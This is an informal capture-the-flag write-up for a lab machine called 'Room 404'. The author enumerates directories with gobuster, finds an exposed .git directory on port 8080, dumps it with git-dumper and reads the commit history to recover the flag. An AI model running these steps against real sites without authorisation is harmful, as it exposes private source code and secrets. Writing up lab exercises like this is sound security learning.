

# Room 404

He booked the quiet room. It's not on the floor plan, not in the brochure, not on any door. But port 8080 is wide open, and the rooms it never lists are the ones worth finding. 

first of all i started my machine then i visited  : 

```bash
http://[machine_ip]:8080/
```

the website was looking like this : 



i started by viewing the page source :

but i got nothing 

then i decided to use gobuster to find hidden directories : 

```bash
gobuster dir --url http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt
```

i got this from the gobuster result : 

```bash
/.git/HEAD
```

then i visited this : 

```bash
http://[machine_ip]:8080/.git
```

i got this : 


The response indicated that the .git directory was accessible this suggesting that the git repository was exposed.

so i used the git-dumper 

if u don’t have git-dumper install it using the :

```bash
pip install git-dumper 
```

i used this command in the git-dumper to access the source code : 

```bash
git-dumper http://[machine_ip]:8080/ ./extracted_repo
```

now navigate to the extracted_repo : 

```bash
cd extracted_repo 

```

then i used :

```bash
git log -p 
```

to view the commit history with the changes introduced in each commit . 


got the flag .